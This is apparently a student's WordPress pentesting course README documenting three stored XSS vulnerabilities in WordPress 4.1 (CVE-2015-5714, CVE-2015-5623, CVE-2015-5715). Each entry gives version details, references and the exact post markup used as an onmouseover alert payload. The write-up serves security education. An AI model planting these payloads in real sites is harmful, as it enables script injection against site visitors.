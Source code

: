 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID: CVE-2015-5714
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.1
    - Fixed in version: 4.1.8
  - [x] GIF Walkthrough: <img src='http://i.imgur.com/cZd4map.gif' title='Video Walkthrough' width='' alt='Video Walkthrough' />
  - [x] Steps to recreate: Make a post as an admin with the following content: <p><p><a href="</p>><a href="http://onMouseOver='alert(1)'">Click me</p>
  - [x] Affected source code:
    - [Link 1](http://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/)
2. (Required) Vulnerability Name or ID: CVE-2015-5623
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.1
    - Fixed in version: 4.1.6
  - [x] GIF Walkthrough: <img src='http://i.imgur.com/Du7etU8.gif' title='Video Walkthrough' width='' alt='Video Walkthrough' />
  - [x] Steps to recreate: Make a post as an admin with the following code: <a href="[caption code=">]</a><a title=" onmouseover=alert('test') ">link</a>
  - [x] Affected source code:
    - [Link 1](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622)
3. (Required) Vulnerability Name or ID: CVE-2015-5715
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.1
    - Fixed in version: 4.1.8
  - [x] GIF Walkthrough: <img src='http://i.imgur.com/eNmWwKs.gif' title='Video Walkthrough' width='' alt='Video Walkthrough' />
  - [x] Steps to recreate: Make a post with the following content: XSS LOL!!![caption width='1' caption='<a href="' ">]</a><a href="http://onMouseOver='alert(/xss/)' style='display:block;position:absolute;top:0px;left:0px;margin-left:-1000px;margin-top:-1000px;width:99999px;height:99999px;'"></a>. Then make the post private.
  - [x] Affected source code: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3440
    - [Link 1](http://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright 2017 Cho-Yuan Su

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.